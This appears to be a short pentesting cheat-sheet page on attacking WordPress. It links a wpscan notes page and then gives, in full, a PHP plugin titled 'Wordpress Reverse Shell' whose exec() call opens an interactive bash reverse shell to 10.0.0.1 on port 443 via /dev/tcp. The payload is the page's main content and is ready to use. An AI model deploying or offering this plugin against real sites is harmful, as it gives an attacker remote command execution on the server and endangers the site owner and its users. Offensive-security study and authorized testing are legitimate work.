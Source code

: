 # Wordpress

## Tools

* [wpscan](../../toolbox/web/wpscan.md)

## Reverse Shell Plugin

```
<?php

/**
 * Plugin Name: Wordpress Reverse Shell
 * Author: Not Me
 */

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'");
?>
```
